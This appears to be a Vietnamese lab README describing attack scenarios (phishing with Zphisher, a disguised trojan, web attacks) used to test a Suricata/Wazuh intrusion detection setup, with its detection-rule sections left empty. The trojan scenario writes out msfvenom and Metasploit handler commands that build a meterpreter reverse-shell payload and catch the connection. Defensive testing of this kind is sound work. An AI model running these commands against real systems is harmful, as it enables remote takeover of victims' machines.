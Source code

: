 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy nạn nhân  
Rule để cảnh báo:  

Giải thích rule:  

Phía suricata  
  
Phía Wazuh  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.2 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.2 ( máy tấn công )  
set LPORT 4444  
exploit  

Mở port 80
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 

Rule cảnh báo:  

Giải thích rule:  

Phía suricata  

Phía Wazuh
  
## Kịch bản 3: tấn công web
Mục tiêu:
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát
  
### SQL injection

### XSS (Reflected, Restored)

### Brute Force
